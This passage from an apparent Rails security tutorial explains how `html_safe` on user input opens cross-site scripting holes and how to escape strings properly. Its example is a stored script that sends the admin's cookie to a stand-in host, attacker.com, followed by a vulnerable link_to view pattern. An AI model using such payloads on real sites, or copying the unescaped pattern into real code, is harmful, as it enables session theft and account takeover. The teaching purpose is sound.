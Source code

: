     I am awesome!!
    <script>
      var i = new Image;
      i.src = "http://attacker.com/" + document.cookie;
    </script>
    

and have this stored in the database. Now, whenever an admin logs in and visits the `/users` page, the above script will run and the attacker will see the admin&#8217;s cookie in their server logs. Using this cookie, they can proceed to log in as the admin and further their agenda (malicious though it may be).

## Another way to introduce XSS vulnerabilities with `html_safe`

The above example illustrates one straightforward way by which an XSS vulnerability can be introduced with `html_safe`. That is, using `html_safe` directly on user inputs because we want to give users the ability to customize how their input renders.

Another way using `html_safe` can cause XSS vulnerabilities to sneak up on you is when you find yourself needing to incorporate styling on strings which are derived from user input. Going back to our example Rails app&#8217;s `/users` page, let&#8217;s say we&#8217;ve installed [Font Awesome](http://fontawesome.io/) and we want to provide admins a nicely styled link to a given user&#8217;s profile page. We might do something like this in our view:

    <% User.all.each do |user| %>
      <%= link_to "<i class='fa fa-user'></i> #{user.name}".html_safe, users_profile_path(user) %>
      <%= user.email %>
      <%= user.introduction %>
    <% end %>
    

As in the previous example, this opens our admin&#8217;s account up to XSS attacks. By submitting javascript in the `name` field, an attacker can proceed to gain access to the admin&#8217;s account.

## But I need to use `html_safe`. How can I protect my app?

The key is to use `html_safe` only on trusted strings, because it is an assertion. You can concatenate a string which is `html_safe` with a string which is not and be assured that the string which is not `html_safe` will be escaped properly. So for example, we can do:

    <%= link_to "<i class='fa fa-user'></i> ".html_safe + "#{user.name}", users_profile_path(user) %>
    

which will ensure that `user.name` is properly escaped. So if we pass in a string like `"Bob Foo<script>alert(document.cookie)</script>` to name, our HTML will look something like:

    <a href='...'><i class='fa fa-user'></i> Bob Foo&lt;script&gt;alert(document.cookie)&lt;/script&gt;</a>
    

instead of:

    <a href='...'><i class='fa fa-user'></i> Bob Foo <script>alert(document.cookie)</script></a>
    

which will prevent the Javascript from running.
